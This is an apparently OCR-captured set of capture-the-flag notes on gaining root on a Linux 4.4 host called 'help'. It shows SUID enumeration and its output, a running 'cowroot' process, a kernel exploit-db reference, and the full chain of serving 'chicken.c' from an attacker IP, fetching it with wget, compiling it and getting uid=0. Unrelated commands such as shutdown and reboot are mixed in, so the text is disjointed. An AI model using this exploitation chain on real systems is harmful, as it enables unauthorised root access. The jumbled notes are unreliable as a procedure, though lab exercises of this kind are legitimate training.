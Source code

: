 npm run build               

sudo shutdown

ps -aux | grep root

crontab -l    

 reboot                                                                                                    

help      22991  0.0  0.0  96704   872 pts/2    Sl+  11:19   0:03 ./cowroot 

find / -user root -perm -4000 -exec ls -ldb {} \; | grep -v "Permission denied"

find / -perm -u=s -type f 2>/dev/null

```
/usr/sbin/exim4
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/vmware-user-suid-wrapper
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/lib/s-nail/s-nail-privsep
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/bin/su
/bin/ntfs-3g
/bin/ping6
/bin/mount
/bin/umount
/bin/fusermount
/bin/ping

```

https://www.hackingarticles.in/hack-the-trollcave-vm-boot-to-root/

https://askubuntu.com/questions/183515/how-do-i-find-the-kernel-version-ubuntu-release-and-disk-partition-information

https://www.exploit-db.com/exploits/44298

Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux 



python3 -m http.server 9058

wget http://ip_addr:9058/chicken.c

you may also copy paste by encoding the code in base64 then decoding on the host machine.

gcc chicken.c -o kernel     

chmod u+x kernel

./kernel

uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambasha
re),1000(help)


